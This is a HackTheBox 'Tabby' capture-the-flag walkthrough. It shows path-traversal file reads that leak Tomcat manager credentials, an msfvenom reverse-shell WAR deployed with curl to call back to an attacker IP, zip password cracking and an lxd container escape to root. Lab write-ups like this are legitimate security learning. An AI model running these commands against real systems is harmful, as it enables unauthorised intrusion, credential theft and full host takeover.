

# Tabby

Author: Ewaël

**Tabby** is an easy HackTheBox box by egre55.

`nmap -sC -sV -oN nmap 10.10.10.194 -v -A` shows ports 80, 22 and 8080 are open. Let's start with the website.


After searching a bit I find `files/statement`:

```
We apologise to all our customers for the previous data breach.
We have changed the site to remove this tool, and have invested heavily in more secure servers
```

The tool is the `news.php` page which does not work at first sight. But changing `http://megahosting.htb/news.php?file=statement` to `http://10.10.10.194/news.php?file=statement` makes it work properly. Here is my entry point, I can use the vulnerable tool which should not be accessible. I feel like there could be an LFI to exploit but I can't make it to `/etc/passwd`.

After wasting hours with dirb, sql injections or even fuzzing the `file` parameter, I finally realize that my first feeling was good, but I did not try hard enough, because `http://10.10.10.194/news.php?file=../../../../etc/passwd` works correctly.


Let's check port 8080 to see how to exploit it, maybe I can leak the `manager` creds.



THIS is interesting:

```
NOTE: For security reasons, using the manager webapp is restricted to users 
with role "manager-gui". The host-manager webapp is restricted to users with
role "admin-gui". Users are defined in /etc/tomcat9/tomcat-users.xml.
```

There is nothing in `../../../../etc/tomcat9/tomcat-users.xml` but after testing with my own tomcat installation, I find it in `../../../../usr/share/tomcat9/etc/tomcat-users.xml`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->
<!--
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

There are my creds: `tomcat:$3cureP4s5w0rd123!`


For some reason I can not access the `manager` page on the browser but curl has no problem. Let's create my war reverse shell with msfvenom and upload it with curl:

```
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.27 lport=4444 -f war -o shell.war
$ curl --upload-file shell.war "http://10.10.10.194:8080/manager/text/deploy?path=/shell.war" --user 'tomcat:$3cureP4s5w0rd123!'
```

Now let's visit `http://10.10.10.194:8080/shell.war` after setting up my listerner on host. I get a shell as `tomcat`, let's now privilege escalation to `ash`.

## Privilege escalation

`python3 -c 'import pty; pty.spawn("/bin/bash")'` spawns a nicer shell to work with. After moving around, I find `/var/backups`:

```
tomcat@tabby:/var/backups$ ls -all
-rw-r--r--  1 root root 41559 Jun 17 16:22 apt.extended_states.0
-rw-r--r--  1 root root  4561 May 21 13:16 apt.extended_states.1.gz
-rw-r--r--  1 root root  4400 May 21 10:31 apt.extended_states.2.gz
-rw-r--r--  1 root root  3683 May 19 11:54 apt.extended_states.3.gz
```

I download them on host, decompress everything but nothing interesting there. Let's dig again. I find `16162020_backup.zip` in `/var/www/html/files` which belongs to `ash`. It is password protected, let's crack it with fcrackzip: `fcrackzip -D -p /usr/share/wordlists/rockyou.txt -v 16162020_backup.zip`.

Sucess! The password is `admin@it`. The files aren't important because this password works with `su ash`. Let's get the user flag:

`e7b9fbf22b9fabc4b70156152f3117d3`

```
$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

I try to find files that could belong to those groups, but only `adm` has potentially interesting files: `find / -group adm 2>/dev/null`, and I do not find anything useful. I also try some enumeration with linpeas and linenum:

```
...
[+] Unexpected folders in root
/cdrom

...
[+] Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root adm 10769 Jun 17 16:03 /var/log/apache2/access.log.1
-rw-r----- 1 root adm 869 Jul  2 19:02 /var/log/apache2/error.log.1
-rw-r----- 1 root adm 15061540 Jul  2 22:10 /var/log/apache2/access.log
-rw-r----- 1 root adm 0 May 21 10:31 /var/log/apache2/other_vhosts_access.log
-rw-r----- 1 root adm 937 Jun 20 20:58 /var/log/apache2/error.log.2.gz
-rw-r----- 1 root adm 2733131 Jul  2 21:49 /var/log/apache2/error.log
-rw-r----- 1 root adm 2423 Jun 16 16:42 /var/log/apache2/access.log.2.gz
-rw-r----- 1 root adm 1521 Jun 16 21:26 /var/log/apache2/error.log.3.gz
-rw-r----- 1 root adm 581 Jun 17 16:22 /var/log/apt/term.log.1.gz
-rw-r----- 1 root adm 0 Jul  2 19:02 /var/log/apt/term.log
-rw-r----- 1 root adm 10619 May 21 13:16 /var/log/apt/term.log.2.gz

...
[+] Finding passwords inside logs (limit 70)
...
/var/log/auth.log.1:Jun 16 17:54:15 ghost passwd[1307]: pam_unix(passwd:chauthtok): password changed for ash
```

But I do not find any way to exploit it. I finally find what I was searching for here: [https://www.hackingarticles.in/lxd-privilege-escalation](https://www.hackingarticles.in/lxd-privilege-escalation/). Let's use lxd-alpine-builder:

```
curl http:/10.10.14.27/alpine-v3.12-x86_64-20200702_1826.tar.gz -o alpine-v3.12-x86_64-20200702_1826.tar.gz
lxc image import ./alpine-v3.12-x86_64-20200702_1826.tar.gz --alias myimg
lxd init
lxc init myimg ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

Aaaand I am root! *Note: see link for explanations*

`66f92a3581eef5b294ceb0826f4b7563`
